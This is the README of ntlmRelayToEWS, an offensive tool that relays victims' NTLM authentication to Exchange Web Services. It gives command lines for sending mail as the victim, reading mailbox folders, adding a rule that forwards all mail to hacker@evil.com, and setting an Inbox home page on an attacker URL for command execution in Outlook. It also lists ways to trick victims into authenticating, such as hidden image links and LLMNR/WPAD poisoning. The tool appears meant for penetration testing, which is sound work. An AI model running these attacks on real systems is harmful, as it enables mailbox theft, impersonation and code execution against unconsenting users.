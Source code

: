 ntlmRelayToEWS
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

**ntlmRelayToEWS** is a tool for performing ntlm relay attacks on Exchange Web Services (EWS). It spawns an SMBListener on port 445 and an HTTPListener on port 80, waiting for incoming connection from the victim. Once the victim connects to one of the listeners, an NTLM negociation occurs and is relayed to the target EWS server.

Obviously this tool does **NOT** implement the whole EWS API, so only a handful of services are implemented that can be useful in some attack scenarios. I might be adding more in the future. See the 'usage' section to get an idea of which EWS calls are being implemented.

Limitations and Improvements
----------------------
**Exchange version**:<br>
I've been testing this tool on an **Exchange Server 2010 SP2** only (*which is quite old admitedly*), so all EWS SOAP request templates, as well as the parsing of the EWS responses, are only tested for this version of Exchange.
These SOAP requests *might/should* work on a more recent version, probably not on older versions. In case those SOAP requests don't work on another version of Exchange, it should be quite easy to create the SOAP request templates to match a newer version by using the Microsoft EWS Managed API in trace mode and capture the proper SOAP requests (*that's how I did it !*).

**EWS SOAP client**:<br>
I would have loved to use a SOAP client in order to get a proper interface for automatically create all SOAP requests based on the Exchange WSDL. I tried using '**zeep**' but I banged my head on the wall to get it working with the Exchange WSDL as it requires to download external namespaces and as such requires an internet connection. Also, with 'zeep', the use of a custom transport session requires a `Requests.session` which is not the type of HTTP(S) session we have by default with the HTTPClientRelay: it would have required either to refactor the HTTPClientRelay to use '*Requests*' (*/me lazy*) or to simply get zeep to create the messages with `zeep.client.create_message()` and then send it with the relayed session we already have. Or is it because I'm a lame developper ? oh well...

Prerequisites
----------------------
**ntlmRelayToEWS** requires a proper/clean install of [Impacket](https://github.com/CoreSecurity/impacket). So follow their instructions to get a working version of Impacket.

Usage
----------------------
In its current version, the tool only implements the following attacks, which are all made on behalf of the relayed user (*victim*).

Refer to the help to get additional info: `./ntlmRelayToEWS -h`. Get more debug information using the `--verbose` or `-v`flag.

**SendMail**<br>
Send an HTML formed e-mail to a list of destinations:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r sendMail -d "user1@corporate.org,user2@corporate.com" -s Subject -m sampleMsg.html`

**getFolder**<br>
Retrieve all items from a predefined folder (*inbox, sent items, calendar, tasks*):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox`

**forwardRule**<br>
Creates an evil forwarding rule that forwards all incoming message for the victim to another email address:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r forwardRule -d hacker@evil.com`

**setHomePage**<br>
Defines a folder home page (*usually for the Inbox folder*) by specifying a URL. This technique, uncovered by SensePost/Etienne Stalmans allows for **arbitray command execution** in the victim's Outlook program by forging a specific HTML page: [Outlook Home Page – Another Ruler Vector](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r setHomePage -f inbox -u http://path.to.evil.com/evilpage.html`

How to get the victim to give you their credentials for relaying ?
----------------------
In order to get the victim to send his credentials to ntlmRelayToEWS you can use any of the following well known methods:
  - Send the victim an e-mail with a hidden picture which 'src' attribute points to the ntlmRelayToEWS server, using either HTTP or SMB. Check the `Invoke-SendEmail.ps1` script to achieve this.
  - Create a link file which 'icon' attribute points to the ntlmRelayToEWS using a UNC path and let victim browse a folder with this link
  - Perform LLMNR, NBNS or WPAD poisonning (*think of Responder.py or Invoke-Inveigh for instance*) to get any corresponding SMB or HTTP trafic from the victim sent to ntlmRelayToEWS
  - other ?

Credits
----------------
Based on [Impacket](https://github.com/CoreSecurity/impacket) and *ntlmrelayx* by Alberto Solino [@agsolino](https://twitter.com/agsolino).

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*